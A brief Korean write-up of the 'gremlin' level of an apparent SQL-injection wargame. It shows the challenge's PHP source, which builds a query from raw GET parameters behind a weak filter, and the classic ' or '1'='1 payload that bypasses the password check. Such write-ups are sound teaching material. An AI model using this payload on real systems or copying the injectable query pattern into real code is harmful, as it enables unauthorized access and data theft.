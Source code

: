 # gramlin

다음 소스는 해당 페이지의 코드이다.
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

`query`문을 보면 `id`와 `pw`를 우리가 `get`으로 넣어줄 수 있고
만약 조건문이 `True`가 된다면 우리는 `gramlin`을 잡을 수 있다.

> ?id=admin&pw=1' or '1'='1
이렇게 넣어준다면 `query`문은 다음과 같다.

```sql
select id from prob_gremlin where id='admin' and pw='1' or '1'='1'
```

조건문이 `True`가 되어 클리어!
